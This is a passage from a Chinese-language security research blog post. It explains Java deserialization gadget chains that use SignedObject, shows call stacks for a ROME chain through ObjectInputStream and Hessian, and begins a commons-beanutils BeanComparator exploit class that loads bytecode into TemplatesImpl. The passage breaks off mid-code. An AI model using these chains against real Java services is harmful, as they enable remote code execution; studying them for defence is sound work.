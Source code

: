 值得一提的是，因为 rome 的特殊性，该利用既可以用于`ObjectInputStream`的反序列化，也可以用于`HessianInput`的反序列化，茯苓分别给出这两种情况下的调用栈

```
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2178, ObjectInputStream (java.io)
readOrdinaryObject:2069, ObjectInputStream (java.io)
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
getObject:179, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
put:470, Hashtable (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:532, SerializerFactory (com.caucho.hessian.io)
readObject:1160, HessianInput (com.caucho.hessian.io)
```

#### [commons-beanutils](https://tttang.com/archive/1701/#toc_commons-beanutils)

茯苓苦思冥想啊，突然想到，能调用 getter 方法的可不止上面提到的，对，就是那个，喊出来吧

##### [BeanComparator](https://tttang.com/archive/1701/#toc_beancomparator)

[![image-20220810101743856.png](https://storage.tttang.com/media/attachment/2022/08/10/3b3536ad-f801-48e1-a14d-e992b831414a.png)](https://storage.tttang.com/media/attachment/2022/08/10/3b3536ad-f801-48e1-a14d-e992b831414a.png)

这条链相信大家都耳熟能详，结合p神构造 CBShiro 的方式让该链只依赖于 commons-beanutils

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.PriorityQueue;
import static util.Tool.*;

public class CB_SingedfObject {
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
```